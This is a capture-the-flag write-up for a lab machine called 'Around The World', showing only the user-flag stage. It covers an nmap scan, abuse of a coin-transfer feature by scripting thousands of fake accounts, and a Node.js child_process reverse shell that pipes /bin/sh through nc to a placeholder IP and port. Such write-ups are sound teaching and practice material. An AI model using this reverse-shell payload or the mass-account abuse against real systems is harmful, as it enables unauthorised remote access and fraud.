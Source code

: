 # CTF: Around The World

![Difficulty: Hard](https://img.shields.io/badge/difficulty-hard-%23ff0000)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP, Hash, Crontab, SSH Key](https://img.shields.io/badge/category-ftp,hash,crontab,sshkey-%237159c1)
![By: Alexandre & Eloi](https://img.shields.io/badge/by-Alexandre-%23f9a03c)  
![alt text](img/aroundtheworld.png)
## Description

> Discover the secret track of the famous duo!

## Write-up

UserFlag: user.txt  
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results : 
```bash
PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    nginx 1.14.0 (Ubuntu)

MAC Address: 02:85:B5:9A:69:1F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have two open ports, 22 and 80. Let's check the web server on port 80.

```bash
http://$IP
```

We arrive on a page with account and bank system. We can create an account and login.

We have a page `/premiumfeatures.html` with a button to upgrade to premium.

When create account we start with 1 coin and we can buy a premium account for 10000 coins.

We can send gold to other users.

We have to create a script who create 10000 accounts and send gold to our account.

We can now buy a premium account and go to the premium page.

We have a input to enter a code. If we check the site it was an NodeJS site. We can try reverseshell with the code.

```bash
require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP_ADDRESS PORT >/tmp/f')
```

We have the user flag.

**Well done! You have the user flag!**